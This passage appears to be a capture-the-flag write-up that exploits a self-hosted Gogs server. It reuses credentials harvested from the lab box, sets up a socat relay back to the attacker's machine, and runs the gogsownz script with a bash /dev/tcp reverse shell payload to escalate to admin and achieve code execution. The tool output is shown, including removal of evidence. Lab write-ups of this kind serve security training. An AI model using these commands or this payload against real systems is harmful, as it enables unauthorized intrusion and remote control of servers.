 #### Gogs Background

[Gogs](https://gogs.io/) is a self-hosted git instance. Basically think of GitHub, but open source and that you can host yourself. There are several CVEs for Gogs that I’ll check out, and [this GitHub](https://github.com/TheZ3ro/gogsownz) has a good tool to exploit two of them. The background in this vulnerability (and much more) is in [this presentation](https://2018.zeronights.ru/wp-content/uploads/materials/17-Who-owned-your-code.pdf), but basically as an admin user you can create a webhook which will run on commit which is basically RCE.

#### Authentication

First, I need to log in to the application. I’ll check a list of credentials I’ve collected from the box so far. I havfe a good feeling the user will be aogiritest, based on the `to-do.txt` I found earlier. After some guessing and password hunting on the containers I had access to, I managed to log in with “aogiritest” / “test@aogiri123” (password from Aogiri box `/usr/share/tomcat7/conf/tomcat-users.xml`).

### Shell

First I need to set up a tunnel. I’ll upload `socat` to the box. I’ll also notice that kaneki-pc can talk directly to my kali host, so I’ll just set up a `socat` tunnel there that listens and forwards back to me. (In later testing I’ll actually show that Gogs can talk directly back to me, but this is still safer when you don’t know.)

```

kaneki_pub@kaneki-pc:/tmp$ ./.socat tcp-listen:9001,reuseaddr,fork tcp:10.10.14.7:9001 &
[1] 2278

```

Now I can use https://github.com/TheZ3ro/gogsownz/blob/master/gogsownz.py. A couple things to note:

1) changed line 91 to `if len(cookies) < 1:` instead of `if len(cookies) != 1:`

2) changed all instances of `self.username not in resp` to `self.username not in resp.lower()`. That’s because `aogiritest` logs in as a valid username, but “AogiriTest” shows up in the page. So the script will fail thinking the username didn’t come back, when in fact, it did, just with camelcase. Alternatively, I could just use the camelcase username to login.

Run it:

```

root@kali:/opt/gogsownz# python3 gogsownz.py http://127.0.0.1:3000/ -v --creds 'aogiritest:test@aogiri123' --rce "bash -c 'bash -i >& /dev/tcp/172.18.0.200/9001 0>&1'" --cleanup --burp                                   
[i] Starting Gogsownz on: http://127.0.0.1:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.                                                                                                      
[+] Performing login
[+] Logged in successfully as aogiritest
[+] Got UserID 2
[+] Repository created successfully
[i] Exploiting authenticated PrivEsc...
[+] Uploading admin session as repository file
[+] Uploaded successfully.
[+] Committing the Admin session
[+] Committed successfully
[+] Removing Repo evidences
[+] Repo removed successfully
[i] Signed in as kaneki, is admin True
[i] Current session cookie: 'acc4001337'
[+] Got UserID 1
[+] Repository created successfully
```